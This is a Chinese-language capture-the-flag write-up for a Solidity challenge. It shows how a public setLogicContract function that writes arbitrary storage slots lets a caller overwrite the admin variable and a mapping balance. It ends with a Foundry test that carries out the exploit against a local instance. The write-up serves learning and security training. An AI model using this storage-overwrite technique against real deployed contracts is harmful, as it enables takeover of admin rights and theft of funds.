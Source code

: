 # 06.challenge

## 分析

[之前做过一次一模一样的](https://www.levi104.com/2023/06/23/00.security/38.LostAssets/)

题目要求成为admin和拥有9999999999999999999999999999999999的余额

```solidity
    function isComplete() public  {
        require(admin == msg.sender);
        require(gasDeposits[msg.sender] >= 9999999999999999999999999999999999);
        emit SendFlag();
    }
```

此方法可以修改任意slot的内容，题目的要求都是位于storage的，因此可以通过修改storage数据来完成题目

```solidity
    function setLogicContract(bytes32 key, address contractAddress) external {
        StorageSlot.AddressSlot storage slot = StorageSlot.getAddressSlot(key);
        emit SetLogicContract(key, slot.value, contractAddress);
        slot.value = contractAddress;
    }
```

需要懂得mapping计算和constant不占用slot

```solidity
//mapping的value实际存储位置计算公式：keccak256(bytes32(key)+bytes32(slot))
function getStorageLocationForKey(address _key) public pure returns(bytes32) {
        // _key : mapping 的 key
        // 0 : 我们的balances这个mapping位于slot 0 
        // 如果部署slot 0，那么换成对应的slot 就ok了
        return keccak256(abi.encode(_key, 0));
    }
```

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import "forge-std/Test.sol";
import "../../src/06.challenge/Storage1.sol";

contract attackTest is Test {
    Storage1 storage1;

    function setUp() public{
        storage1 = new Storage1();
    }

    function test_isComplete() public{
        // 修改slot1的数据为我们的攻击合约地址，也就是修改admin
        storage1.setLogicContract(bytes32(uint256(1)), address(this));
        assertEq(storage1.admin(),address(this));
        // 计算这个合约的余额存放的位置
        bytes32 setGasDeposits = keccak256(abi.encode(address(this), 2));
        // 修改余额
        storage1.setLogicContract(setGasDeposits, address(9999999999999999999999999999999999));
        storage1.isComplete();
    }

}
```




























































